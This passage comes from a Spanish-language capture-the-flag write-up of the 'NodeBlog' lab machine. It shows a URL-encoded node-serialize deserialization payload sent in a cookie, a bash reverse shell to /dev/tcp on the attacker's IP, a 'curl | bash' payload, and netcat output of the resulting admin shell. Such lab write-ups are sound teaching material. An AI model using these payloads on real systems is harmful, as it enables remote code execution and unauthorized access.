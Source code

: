 ```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%31%37%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

Dentro del navegador web ponemos nuestra cookie y recargamos:

![](/imagenes/NodeBlog/node13.png)

Luego de recargar la página, observamos el servidor http:

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.139 - - [13/Feb/2023 17:31:02] "GET / HTTP/1.1" 200 -
```
Tenemos una petición get del servidor web. Ahora el siguiente paso es ganar acceso a la máquina, en este caso haremos la misma petición get pero tendremos un recurso llamado index.html que contendrá lo siguiente:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/1235 0>&1
```
Luego, esa información que obtenga de la petición, haremos que la ejecute con bash mientras esperamos una conexión con netcat por el puerto 1235:
```
{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('curl 10.10.14.17 | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
```
 python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.139 - - [13/Feb/2023 17:36:48] "GET / HTTP/1.1" 200 -
```

Y si vemos el netcat:

```
nc -nvlp 1235
listening on [any] 1235 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.139] 54948
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$ whoami
whoami
admin
```
Entramos a la máquina como usuario admin.
